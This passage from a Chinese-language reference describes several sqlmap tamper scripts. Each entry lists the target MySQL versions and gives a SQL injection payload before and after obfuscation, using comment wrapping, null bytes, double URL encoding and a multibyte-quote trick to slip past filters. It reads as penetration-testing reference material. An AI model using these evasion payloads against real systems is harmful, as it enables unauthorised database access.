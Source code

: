 - 适用数据库：MySQL
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
- 作用：注释绕过
- 使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`
- 使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

#### 27. halfversionedmorekeywords.py

- 适用数据库：MySQL < 5.1
测试通过数据库：MySQL 4.0.18/5.0.22
- 作用：在每个关键字前添加mysql版本注释
- 使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`
- 使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

#### 28. space2morehash.py

- 适用数据库：MySQL >= 5.1.13
测试通过数据库：MySQL 5.1.41
- 作用：将空格替换为\#，并添加一个随机字符串和换行符
- 使用脚本前：`tamper('1 AND 9227=9227')`
- 使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

#### 29. apostrophenullencode.py

- 适用数据库：ALL
- 作用：用非法双字节Unicode字符替换单引号
- 使用脚本前：`tamper("1 AND '1'='1")`
- 使用脚本后：`1 AND %00%271%00%27=%00%271`

#### 30. appendnullbyte.py

- 适用数据库：ALL
- 作用：在有效载荷的结束位置加载null字节字符编码
- 使用脚本前：`tamper('1 AND 1=1')`
- 使用脚本后：`1 AND 1=1%00`

#### 31. chardoubleencode.py

- 适用数据库：ALL
- 作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
- 使用脚本前：`tamper('SELECT FIELD FROM%20TABLE')`
- 使用脚本后：`%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545`

#### 32. unmagicquotes.py

- 适用数据库：ALL
- 作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格
- 使用脚本前：`tamper("1' AND 1=1")`
- 使用脚本后：`1%bf%27 AND 1=1--`
